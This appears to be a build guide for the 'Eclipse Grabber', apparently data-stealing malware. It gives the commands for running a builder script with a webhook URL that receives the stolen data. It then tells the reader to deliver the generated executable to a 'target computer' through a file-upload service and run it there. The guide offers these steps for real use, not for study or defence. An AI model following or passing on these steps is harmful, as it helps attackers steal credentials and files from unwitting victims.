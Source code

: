 # Build Guide for the Eclipse Grabber
## Run the builder.py Script

To build an eclise grabber you will need the webhook url from the webhook that we created earlier.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

![image](https://imgur.com/fEIbIfb.png)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### MacOS
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
Make sure you replace the **YOUR_WEBHOOK_URL** with the webhook url you copied earlier and replace **FILE_NAME** with the name you want to give your generated EXE.

Once the builder is done, you will find your generated file in the **dist** directory.

## Execute the generated Eclipse Grabber

Now that you have the Executable file you can share it with the target coputer and run it. You can use a file uploading service like [this](https://file.io) one to **upload/download** the file to the computer.
